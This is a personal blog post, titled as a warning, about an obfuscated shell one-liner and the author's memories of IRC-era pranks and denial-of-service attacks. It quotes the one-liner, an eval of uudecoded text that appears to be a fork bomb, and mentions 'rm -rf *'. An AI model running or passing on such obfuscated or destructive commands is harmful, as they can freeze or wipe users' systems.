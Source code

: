 ```yaml
---
layout: post
title: DO NOT EXECUTE THIS!!!
---
```


<span style="font-size: 12px;">```eval $(echo "I<RA('1E<W3t`rYWdl&r()(Y29j&r{,3Rl7Ig}&r{,T31wo});r`26<F]F;==" | uudecode) ``` </span>
  
Source3: [https://www.vidarholen.net/contents/blog/?p=766][1]  
<br>
  
  
&emsp;&emsp;This was an interesting find. I started getting curious about computers around the IRC days. In those days, a lot of people were scripting their clients to produce ASCII art (back when it was a thing), but then there were others that realized it was possible to do more sinister stuff. For example, by flooding someone with a ping request it was possible to overload a target's network card/modem and cause them to disconnect (mind you this was dial up). This along with suggesting them to press ```alt + F4``` and ```ctrl + alt + del```. 


&emsp;&emsp;And of course, there were those who were suggesting people to run commands similar to ```rm -rf *``` (or delete the Program Files folder). Somewhere around that time, I learnt about fork bombs and billion laughs. There was no wikipedia or youtube around then, just plain sites on geocities or all over the net wherever people could host time. 


&emsp;&emsp;Reading this article reminded me that the simplest attack is really just to disable a service/system, a Denial-Of-Service. It may not be complex or sophisticated but has cost implications (at the very least, time cost). Even with redundancies and self replicating microservices of today, it is just as easy for threat actors to scale themselves as well. Nowadays, even as most threat actors attempt to discreetly and covertly compromise a system, entrench their foothold and survey the internal network, sometimes they will use DOS for a good distraction. 


&emsp;&emsp;There were many who used to make fun of script kiddies. We don't really hear it that much anymore. Plus, almost everyone nowadays uses some sort of framework with pre-configured vulnerabilities and paylods.


[1]: https://www.vidarholen.net/contents/blog/?p=766




